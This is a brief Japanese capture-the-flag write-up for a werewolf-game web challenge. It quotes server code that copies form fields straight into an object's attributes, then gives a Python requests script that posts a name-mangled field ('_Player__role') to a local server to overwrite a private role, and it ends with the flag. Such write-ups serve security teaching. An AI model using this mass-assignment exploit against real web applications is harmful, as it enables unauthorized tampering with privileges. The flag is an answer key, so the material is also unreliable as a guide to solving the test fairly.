# writeup

配布されたpythonのコードを読み込む

```
class Player:
    def __init__(self):
        self.name = None
        self.color = None
        self.__role = random.choice(['VILLAGER', 'FORTUNE_TELLER', 'PSYCHIC', 'KNIGHT', 'MADMAN', 'WEREWOLF'])
```
```
for k, v in request.form.items():
    player.__dict__[k] = v

```
上記のPlayerクラスのプライベート関数の__roleを手に入れたい  
[Pythonのプライベート変数の振る舞いについて](https://qiita.com/marmalade_boy/items/dd78c460ceb639c023ad)

こちらを読んで理解したので回答のコードを書く

<details><summary>コード一覧</summary><div>
```
import requests
def request():
    data = {
        'name': 'test',
        'color': 'YELLO',
        '_Player__role': 'WEREWOLF'
    }
    req = requests.post('http://0.0.0.0:8082/', data=data)
    body = req.content.decode()
    print(body)
if __name__ == '__main__':
    request()
```
</div></details>

<details><summary>flag</summary><div>
ctf4b{there_are_so_many_hackers_among_us}
</div></details>